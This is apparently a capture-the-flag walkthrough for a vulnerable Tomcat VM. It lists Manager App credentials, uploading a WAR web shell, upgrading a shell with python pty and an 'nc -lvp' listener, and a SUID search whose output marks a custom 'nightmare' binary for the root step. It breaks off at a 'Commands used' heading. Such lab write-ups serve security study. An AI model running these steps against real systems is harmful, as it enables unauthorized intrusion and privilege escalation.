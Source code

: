 ### Upload shell

	http://localhost --> Manager App --> sl33py / Gu3SSmYStR0NgPa$sw0rD! --> WAR file to deploy --> http://localhost/shell


## upgrade shell

	python -c 'import pty;pty.spawn("/bin/bash")'
	$ ^Z
	debian@debian:~$ echo $TERM
	xterm-256color
	debian@debian:~$ stty -a
	...rows 27; columns 105; ...
	debian@debian:~$ stty raw -echo
	debian@debian:~$ fg
	debian@debian:~$ nc -lvp 1234
	                             reset
	reset: unknown terminal type unknown
	Terminal type? xterm-256color
	bash-4.2$ export TERM=xterm-256color
	bash-4.2$ export SHELL=bash
	bash-4.2$ stty rows 27 columns 105

# Get root

## SUID file

	find / -perm -u=s -type f 2>/dev/null | xargs ls -l
	-rwsr-xr-x. 1 root root    64176 Jun 10  2014 /usr/bin/chage
	-rws--x--x. 1 root root    23960 Jun 18  2014 /usr/bin/chfn
	-rws--x--x. 1 root root    23856 Jun 18  2014 /usr/bin/chsh
	-rwsr-xr-x. 1 root root    57536 Jun 10  2014 /usr/bin/crontab
	-rwsr-xr-x. 1 root root    78168 Jun 10  2014 /usr/bin/gpasswd
	-rwsr-xr-x. 1 root root    44232 Jun 18  2014 /usr/bin/mount
	-rwsr-xr-x. 1 root root    37624 Jun 10  2014 /usr/bin/newgrp
	-rwsr-s---. 1 root tomcat   8669 Jan 18  2015 /usr/bin/nightmare <== HERE
	-rwsr-xr-x. 1 root root    27832 Jun 10  2014 /usr/bin/passwd
	-rwsr-xr-x. 1 root root    27656 Jun 10  2014 /usr/bin/pkexec
	-rwsr-xr-x. 1 root root    32032 Jun 18  2014 /usr/bin/su
	---s--x--x. 1 root root   130712 Jun 10  2014 /usr/bin/sudo
	-rwsr-xr-x. 1 root root    31960 Jun 18  2014 /usr/bin/umount
	-rwsr-x---. 1 root dbus   318384 Jun 10  2014 /usr/lib64/dbus-1/dbus-daemon-launch-helper
	-rwsr-xr-x. 1 root root    15416 Jun 10  2014 /usr/lib/polkit-1/polkit-agent-helper-1
	-rwsr-xr-x. 1 root root    11208 Jun 18  2014 /usr/sbin/pam_timestamp_check
	-rwsr-xr-x. 1 root root    36264 Jun 18  2014 /usr/sbin/unix_chkpwd
	-rwsr-xr-x. 1 root root    11272 Aug 26  2014 /usr/sbin/usernetctl

##  Commands used
